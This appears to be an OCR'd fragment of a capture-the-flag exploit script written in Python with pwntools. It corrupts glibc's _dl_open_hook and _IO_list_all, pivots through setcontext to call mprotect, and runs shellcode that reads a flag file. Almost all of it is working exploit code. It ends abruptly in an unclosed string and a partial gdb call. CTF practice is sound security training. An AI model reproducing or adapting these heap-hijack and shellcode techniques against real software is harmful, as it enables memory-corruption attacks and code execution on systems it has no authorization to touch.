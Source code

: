 ```python
# Modify the _dl_open_hook
n=0x18+2283-10
edit(0x1000,p64(0)+p64(0x10*n+1)+'\x00'*(0x10*n-8)+p64(0x21)*5)
free(0x1010)

# _dl_open_hook get  

# _IO_list_all 0x7ffff7dd5500
payload=p64(0x7ffff7b15e89-0x7ffff7a3b000+base)+p64(0x7ffff7a7d4d5-0x7ffff7a3b000+base)+p64(0)
payload=payload.ljust(0x68)+p64(magic)+p64(0x10000)
payload=payload.ljust(0x88)+p64(0x7)
payload=payload.ljust(0xa0,'\x00')+p64(magic+0x2964)+p64(libc.sym['mprotect'])
edit(0x1000,payload)
shellcode='''
xor rax,rax
xor rdi,rdi
xor rdx,rdx
xor rsi,rsi
mov al,2
mov rdi,0x0067616c662f2e
sub rsp,0x100
push rdi
mov rdi,rsp
syscall
mov al,0
mov rdi,4
mov rsi,{}
mov rdx,0x100
syscall
mov al,1
mov rdi,1
mov rsi,{}
mov rdx,0x23
syscall
'''
shellcode=shellcode.format(hex(magic+0x2699),hex(magic+0x2699))
n132=asm(shellcode)
edit(0x2964,p64(magic+0x296c)+n132)
'''
   0x7ffff7a7d4d5 <setcontext+53>:	mov    rsp,QWORD PTR [rdi+0xa0]
   0x7ffff7a7d4dc <setcontext+60>:	mov    rbx,QWORD PTR [rdi+0x80]
   0x7ffff7a7d4e3 <setcontext+67>:	mov    rbp,QWORD PTR [rdi+0x78]
n132>>> 
   0x7ffff7a7d4e7 <setcontext+71>:	mov    r12,QWORD PTR [rdi+0x48]
   0x7ffff7a7d4eb <setcontext+75>:	mov    r13,QWORD PTR [rdi+0x50]
   0x7ffff7a7d4ef <setcontext+79>:	mov    r14,QWORD PTR [rdi+0x58]
   0x7ffff7a7d4f3 <setcontext+83>:	mov    r15,QWORD PTR [rdi+0x60]
   0x7ffff7a7d4f7 <setcontext+87>:	mov    rcx,QWORD PTR [rdi+0xa8]
   0x7ffff7a7d4fe <setcontext+94>:	push   rcx
   0x7ffff7a7d4ff <setcontext+95>:	mov    rsi,QWORD PTR [rdi+0x70]
   0x7ffff7a7d503 <setcontext+99>:	mov    rdx,QWORD PTR [rdi+0x88]
n132>>> 
   0x7ffff7a7d50a <setcontext+106>:	mov    rcx,QWORD PTR [rdi+0x98]
   0x7ffff7a7d511 <setcontext+113>:	mov    r8,QWORD PTR [rdi+0x28]
   0x7ffff7a7d515 <setcontext+117>:	mov    r9,QWORD PTR [rdi+0x30]
   0x7ffff7a7d519 <setcontext+121>:	mov    rdi,QWORD PTR [rdi+0x68]
   0x7ffff7a7d51d <setcontext+125>:	xor    eax,eax
   0x7ffff7a7d51f <setcontext+127>:	ret 
'''
'''

gdb.attach(p,"""
b _IO_vtable_check
```
